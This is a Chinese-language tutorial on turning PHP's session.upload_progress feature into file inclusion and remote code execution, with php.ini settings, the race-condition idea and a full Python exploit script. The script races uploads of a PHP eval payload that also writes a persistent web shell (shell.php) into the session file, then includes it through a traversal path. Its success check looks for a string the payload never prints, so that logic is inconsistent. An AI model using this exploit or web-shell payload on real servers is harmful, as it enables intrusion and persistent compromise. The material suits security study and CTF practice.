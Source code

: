 ## session.upload_progress进行文件包含

## 0x01 利用条件

```
php>5.4
```

这其中主要是有关于php.ini中的默认选项

```
1. session.upload_progress.enabled = on
2. session.upload_progress.cleanup = on
3. session.upload_progress.prefix = "upload_progress_"
4. session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
5. session.upload_progress.freq = "1%"
6. session.upload_progress.min_freq = "1"
```

![image-20210426231924787](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210426231924787.png)

下面依次来说一下，这几个的含义

```
1.enabled 将上传过程存储在session中
Enables upload progress tracking, populating the $_SESSION variable. Defaults to 1, enabled.
2.cleanup 上传完成之后就把上面session中的东西删除掉
3.name当它出现在表单中，php将会报告上传进度，最大的好处是，它的值可控；
prefix+name将表示为session中的键名
```

![image-20210426232318406](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210426232318406.png)

还有就是一个关键的配置

`session.use_strict_mode=off`表示上传中我们的sessionid可控

## 0X02 开始演示

![image-20210426232607264](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210426232607264.png)

现在我们拿到了这样一个页面，可以看到这其中是有一个叫做文件包含漏洞的。

但是我们没有上传的点，假装这里还有很多的过滤，那不就完蛋了吗？

**问题一**

代码里没有`session_start()`,如何创建session文件呢。

**解答一**

其实，如果`session.auto_start=On` ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。

但session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里。

**问题二**

但是问题来了，默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，

**如何进行rce呢？**

**解答二**

此时我们可以利用竞争，在session文件内容清空前进行包含利用。

![image-20210426233631824](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210426233631824.png)

利用脚本

```
#coding=utf-8 
import io
import requests
import threading
import sys
sessid = 'demo'
data = {"cmd":"system('id');"} 
url = "http://test.com"
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( url, data={'PHP_SESSION_UPLOAD_PROGRESS': "<?php eval($_POST['cmd']);fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');echo md5('1');?>"}, files={'file': ('demo.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post(url+'?file=../../Extensions/tmp/tmp/sess_'+sessid,data=data)
        if 'peri0d.txt' in resp.text:
        	print("[-]"+"*"*20+"success")
        	print(resp.text)
        	event.clear()
        	sys.exit(0)
        else:
        	print("[-]"+"*"*20+"try again")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30): 
            threading.Thread(target=write,args=(session,)).start()
        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()

```

## 0x03 适用环境

有漏洞点，但是无漏洞文件，还可以用于反序列化。